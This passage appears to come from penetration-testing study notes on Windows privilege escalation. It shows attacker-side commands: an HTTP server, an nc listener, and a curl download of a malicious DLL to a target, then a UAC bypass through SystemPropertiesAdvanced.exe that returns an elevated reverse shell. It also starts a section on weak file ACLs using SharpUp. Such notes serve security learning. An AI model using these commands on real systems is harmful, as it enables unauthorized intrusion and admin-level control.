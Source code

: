     # setup server
    sudo python3 -m http.server 8080

    # also setup listener
    nc -nvlp 8443
    ```

    ```ps
    # on target, fetch the DLL
    curl http://10.10.14.3:8080/srrstr.dll -O "C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll"

    # if we simply execute this DLL, we get a shell back with normal user rights - UAC enabled
    # 'rundll32 shell32.dll,Control_RunDLL C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll'
    # but for exploit, we need to execute 32-bit version of SystemPropertiesAdvanced.exe

    C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
    # this gives us a shell on our listener
    ```

    ```sh
    # on reverse shell
    whoami /priv
    # shows escalated, admin privs - UAC bypassed
    ```

* Weak Permissions:

    * Permissive file system ACLs:

        ```ps
        # we can use SharpUp - https://github.com/GhostPack/SharpUp/
        # to check for service binaries with weak ACLs
        .\SharpUp.exe audit

